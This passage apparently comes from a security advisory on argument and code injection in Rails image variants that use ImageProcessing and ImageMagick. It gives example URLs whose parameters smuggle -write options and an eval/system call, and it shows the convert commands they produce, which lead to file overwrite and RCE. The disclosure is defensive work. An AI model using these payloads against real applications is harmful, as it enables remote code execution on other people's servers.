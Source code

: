 Example:

```
https://example.com/controller?new_size[]=123&new_size[]=-set&new_size[]=comment&new_size[]=MYCOMMENT&new_size[]=-write&new_size[]=/tmp/file.erb
```

This is going to generate the following command:

```
convert ORIGINAL_IMAGE -auto-orient -resize 123 -set comment MYCOMMENT -write /tmp/file.erb /tmp/image_processing20210328-23426-63rmm2.png
```

Which has the effect of writing a file containing user-controlled data anywhere in the system. This could be used easily to achieve RCE against Rails applications by overwriting ERB files, for example.

### User-controlled transformation

A second problem arrises when the user is also allowed to choose the kind of transformation to be applied, such as:

```ruby
<%= image_tag user.avatar.variant(params[:t].to_s => params[:v].to_s) %>
```

This is still dangerous since ImageMagick's convert program has a lot of powerful command-line options and they can be used to compromise the application. For example, the user could pass:

```
https://example.com/controller?t=write&v=/tmp/file2.erb
```

This is going to generate the following command:

```
convert ORIGINAL_IMAGE -auto-orient -write /tmp/file2.erb /tmp/image_processing20210328-23426-63rmm2.png
```

Which has a similar effect as the previous attack, if we consider the original image is usually user-controlled.

### Code Injection

The third problem occurs due the way ImageProcessing passes the operations to the *builder* object (via *send()*). There is no filtering to check if the called method is a valid operation and this can be explored by an attacker to execute code.

Consider the same pattern as before:

```ruby
<%= image_tag user.avatar.variant(params[:t].to_s => params[:v].to_s) %>
```

The attacker could pass:

```
https://example.com/controller?t=eval&v=system("touch /tmp/hacked")
```
